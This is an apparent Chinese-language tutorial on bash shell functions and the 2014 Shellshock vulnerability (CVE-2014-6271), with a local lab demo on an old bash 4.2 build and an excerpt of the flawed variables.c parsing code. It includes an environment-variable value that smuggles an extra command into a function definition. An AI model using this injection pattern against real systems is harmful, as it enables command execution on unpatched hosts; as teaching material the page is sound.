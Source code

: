 #
#### shell函数
shell程序是一个命令行解释器，从终端读取并执行命令。  
目前存在许多不同类型的shell程序：sh、bash、csh、zsh等。  
这些程序中的函数被称为shell函数。  
```
shan@shan-GV62-8RC:~$ foo() { echo "hello shan";}  
shan@shan-GV62-8RC:~$ declare foo
shan@shan-GV62-8RC:~$ declare -f foo  # 打印函数
foo () 
{ 
    echo "hello shan"
}
shan@shan-GV62-8RC:~$ foo
hello shan
shan@shan-GV62-8RC:~$ unset foo  # 删除函数
```

!!! warning
    foo() { echo "hello shan";} 左边大括号后必须有空格，后面必须要分号。


&emsp;

**给子进程传入函数的两种方式**  

第一种:父进程定义好函数，通过export给到子进程
```
shan@shan-GV62-8RC:~$ foo() { echo "hello shan";}
shan@shan-GV62-8RC:~$ bash
shan@shan-GV62-8RC:~$ foo  # 子进程

Command 'foo' not found, did you mean:

  command 'roo' from snap roo (2.0.3)
  command 'fio' from deb fio (3.16-1)
  command 'fop' from deb fop (1:2.4-2)
  command 'goo' from deb goo (0.155+ds-1)

See 'snap info <snapname>' for additional versions.

shan@shan-GV62-8RC:~$ exit
exit
shan@shan-GV62-8RC:~$ foo
hello shan
shan@shan-GV62-8RC:~$ export -f foo  # -f代表变量名称为函数名称。
shan@shan-GV62-8RC:~$ bash
shan@shan-GV62-8RC:~$ foo  # 子进程
hello shan
```

第二种:定义一种特殊格式的变量。该变量在父进程中只是变量。但是给到子进程后会解析成函数。  
该情况只能在有漏洞的版本试验，现版本中已经修复。所以直接在下面shellshcok漏洞里演示。  



&emsp;
#### shellshcok漏洞
shellshcok漏洞2014年9月24日被公开，CVE-2014-6271。它就是利用了上述bash将环境变量转为函数定义时的犯的错误。不过通常shellshock泛指所有和bash相关的漏洞。

!!! CVE-2014-6271影响版本
    所有安装GNU bash 版本小于或者等于4.3的Linux操作系统。
    
    
安装一个小于4.3版本的bash实验。http://www.gnu.org/software/bash/bash.html  
```
ubuntu@VM-0-17-ubuntu:~$ wget https://mirrors.kernel.org/gnu/bash/bash-4.2.tar.gz
ubuntu@VM-0-17-ubuntu:~$ tar -zxvf bash-4.2.tar.gz 
ubuntu@VM-0-17-ubuntu:~$ cd bash-4.2/
ubuntu@VM-0-17-ubuntu:~/bash-4.2$ ./configure --prefix=/home/ubuntu/bash4.2
ubuntu@VM-0-17-ubuntu:~/bash-4.2$ make && make install
ubuntu@VM-0-17-ubuntu:~$ sudo ln -s /home/ubuntu/bash4.2/bin/bash /usr/bin/bash_shellshock
ubuntu@VM-0-17-ubuntu:~$ bash_shellshock --version
GNU bash, version 4.2.0(1)-release (x86_64-unknown-linux-gnu)
```
```
ubuntu@VM-0-17-ubuntu:~$ foo='() { echo "hello shan";};echo "hacker"'
ubuntu@VM-0-17-ubuntu:~$ echo $foo
() { echo "hello shan";};echo "hacker"
ubuntu@VM-0-17-ubuntu:~$ foo

Command 'foo' not found, did you mean:

  command 'fio' from deb fio (3.16-1)
  command 'fop' from deb fop (1:2.4-2)
  command 'goo' from deb goo (0.155+ds-1)

Try: sudo apt install <deb name>

ubuntu@VM-0-17-ubuntu:~$ export foo
ubuntu@VM-0-17-ubuntu:~$ bash_shellshock 
hacker     # 额外的命令被执行了
ubuntu@VM-0-17-ubuntu:~$ foo
hello shan
```
**父进程传递给子进程变量，子进程解析。所以每次调用bash额外的命令都会被自行**

&emsp;

**漏洞原理**
漏洞存在于bash源码的variables.c文件中  
```
void initialize_shell_variables (env, privmode)
    char **env;
    int privmode;
{
    ...
    if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))
    ...
    
    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);

}
```
当文件找到`() {`开的字符串时触发这个解析逻辑。  
一旦找到`() {`它会把`=`换成空格从而将环境变量变成函数。  
然后使用`parse_and_execute`函数解析，它不仅仅解析函数定义，当这个函数发现字符串中含有`;`隔开的shell命令就会区执行。  




